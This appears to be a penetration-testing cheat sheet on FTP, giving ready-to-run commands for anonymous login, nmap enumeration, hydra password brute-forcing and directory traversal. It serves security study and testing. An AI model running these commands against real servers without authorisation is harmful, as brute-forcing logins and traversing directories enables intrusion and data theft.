 # FTP - File Transfer Protocols

- [Exploiting FTP Vulnerabilities](https://medium.com/@1200km/exploiting-ftp-vulnerabilities-for-effective-penetration-testing-a2810df78602
)

## Anonymous Login
- Anonymous FTP login
    - Username: Anonymous
    - Password: Anonymous
```
$ ftp 192.168.1.1
Connected to 192.168.1.1
220 FTP Server Banner
Name (192.168.1.1): Anonymous
331 Password Required
Password: Anonymous
```

## Enumerating Anonymous FTP with nmap
```
nmap -sV -p 21 -A <target_host>

nmap -sV -p 21 --script ftp-anon <target_host>
```

## Exploiting FTP logins with hydra

```
hydra -t 4 -l <username> -P <password_file> -vV ftp://10.10.10.10
```

## Directory Traversal
- https://www.exploit-db.com/exploits/11973
- Many FTP servers are vulnerable to directory traversal attacks
- [OWASP | Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
- [CWE | Path Traversal Weakness](https://cwe.mitre.org/data/definitions/22.html)
```
ftp> cd ../../../../../../../
ftp> pwd
/
```